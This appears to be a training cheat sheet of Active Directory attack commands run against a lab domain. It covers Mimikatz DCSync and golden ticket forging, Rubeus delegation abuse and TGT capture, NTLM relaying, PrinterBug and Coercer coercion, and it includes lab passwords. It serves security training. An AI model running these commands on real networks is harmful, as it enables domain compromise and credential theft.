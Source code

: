 # Golden Ticket

| Command | Description |
| --- | --- |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt` | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID` | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist` | Command line utility in Windows to display the contents of the Kerberos ticket cache. |

# Kerberos Constrained Delegation

| Command | Description |
| --- | --- |
| `Get-NetUser -TrustedToAuth` | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123` | Converts the plaintext password `Slavi123` to its NTLM hash equivalent |
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1` | Used to enter a new powershell remote session on the `dc1` computer |

# Print Spooler & NTLM Relaying

| Command | Description |
| --- | --- |
| `impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support` | Used to forward any connections to DC2 and attempt to perform DCsync attack |
| `python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123` | Used to trigger the PrinterBug |
| `RegisterSpoolerRemoteRpcEndPoint` | Registry key that can be disabled to prevent the PrinterBug |

# Coercing Attacks & Unconstrained Delegation

| Command | Description |
| --- | --- |
| `Get-NetComputer -Unconstrained \| select samaccountname` | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1` | Used to monitor new logons and extract TGTs. |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local` | Used to perform a coercing attack towards DC1, forcing it to connect to WS001. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |

# Object ACLs
